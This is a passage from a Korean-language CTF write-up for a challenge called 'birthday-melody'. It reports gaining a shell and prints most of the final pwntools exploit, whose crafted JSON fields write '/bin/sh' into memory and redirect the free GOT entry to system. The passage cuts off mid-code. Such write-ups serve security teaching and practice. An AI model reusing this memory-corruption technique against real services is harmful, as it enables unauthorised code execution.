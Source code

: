 이를 토대로 익스플로잇 코드를 작성했고, 실행한 결과 성공적으로 명령어 실행이 가능했으며, 쉘 획득이 가능했습니다.

<figure style="text-align: center">
    <img src="./assets/images/birthday-melody-write-up/get-shell.png"/>
    <figcaption>
        명령어 실행을 통한 쉘 획득
    </figcaption>
</figure>

아래는 최종 익스플로잇 코드입니다.
```
from pwn import *
from json import dumps

offset = 140.5 # free got address offset
body = dumps({
    "length": 0,
    "hertz": 0xfffffffffffffffffffffffffffffffffffff,
    "data":[
        {
            "start": 0,
            "end": 1,
            "frequency": 0,
            "amplitude": -0x2a805ffffe,
            "offset": 0x622f # /b
        },
        {
            "start": 1,
            "end": 2,
            "frequency": 0,
            "amplitude": 0x2f36bfffff,
            "offset": 0x6e69 # in
        },
        {
            "start": 2,
            "end": 3,
            "frequency": 0,
            "amplitude": -0x13893fffff,
            "offset": 0x732f # /s
        },
        {
            "start": 3,
            "end": 4,
            "frequency": 0,
            "amplitude": 0x179f3fffff,
            "offset": 0x68 # h\x00
        },
        { # for pointing the GOT entry to system function
            "start": (-1888 + (8 * offset)),
            "end": (-1888 + (8 * offset) + 1),
            "frequency": 0,
            "amplitude": 0x1f34ffffff,
            "offset": 0x6ee0 
        },
        { # for pointing the GOT entry to system function
            "start": (-1888 + (8 * offset)) + 1,
            "end": (-1888 + (8 * offset) + 2),
            "frequency": 0,
```